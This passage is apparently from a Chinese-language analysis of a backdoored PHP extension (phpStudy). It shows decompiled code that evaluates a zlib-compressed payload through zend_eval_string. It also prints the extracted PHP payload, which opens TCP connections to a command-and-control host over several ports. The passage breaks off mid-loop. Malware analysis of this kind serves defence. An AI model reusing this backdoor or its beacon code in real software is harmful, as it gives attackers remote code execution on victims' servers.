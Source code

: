 ```
          v14 += 4;
          if ( (signed int)v14 &gt;= (signed int)&amp;unk_1000E5C4 )
            break;
          v13 = v42;
        `}`
        spprintf(&amp;v36, 0, aVSMS, byte_100127B8, Dest);
        spprintf(&amp;v42, 0, aSEvalSS, v36, aGzuncompress, v42);
        v16 = *(_DWORD *)(*a3 + 4 * executor_globals_id - 4);
        v17 = *(void **)(v16 + 296);
        *(_DWORD *)(v16 + 296) = &amp;v32;
        v40 = v17;
        v18 = setjmp3((int)&amp;v32, 0);
        v19 = v40;
        if ( v18 )
        `{`
          v20 = a3;
          *(_DWORD *)(*(_DWORD *)(*a3 + 4 * executor_globals_id - 4) + 296) = v40;
        `}`
        else
        `{`
          v20 = a3;
          zend_eval_string(v42, 0, &amp;rce_cmd, a3);
        `}`
        result = 0;
        *(_DWORD *)(*(_DWORD *)(*v20 + 4 * executor_globals_id - 4) + 296) = v19;
        return result;
      `}`
```

从unk_1000D66C到unk_1000E5C4为zlib压缩的payload，后门检查请求头，当满足要求后，会获取压缩后的payload，然后执行@eval(gzuncompress(payload))，把payload解压后再执行，经过提取，该payload为：

```
@ini_set("display_errors","0");
error_reporting(0);
function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123')`{`
 $result = "";
  $handle = stream_socket_client("tcp://`{`$ip`}`:`{`$port`}`", $errno, $errstr,10); 
  if( !$handle )`{`
    $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);
 if( !$handle )`{`
  return "err";
 `}`
  `}`
  fwrite($handle, $sendMsg."\n");
 while(!feof($handle))`{`
  stream_set_timeout($handle, 2);
  $result .= fread($handle, 1024);
  $info = stream_get_meta_data($handle);
  if ($info['timed_out']) `{`
    break;
  `}`
  `}`
  fclose($handle); 
  return $result; 
`}`

$ds = array("www","bbs","cms","down","up","file","ftp");
$ps = array("20123","40125","8080","80","53");
$n = false;
do `{`
 $n = false;
 foreach ($ds as $d)`{`
  $b = false;
```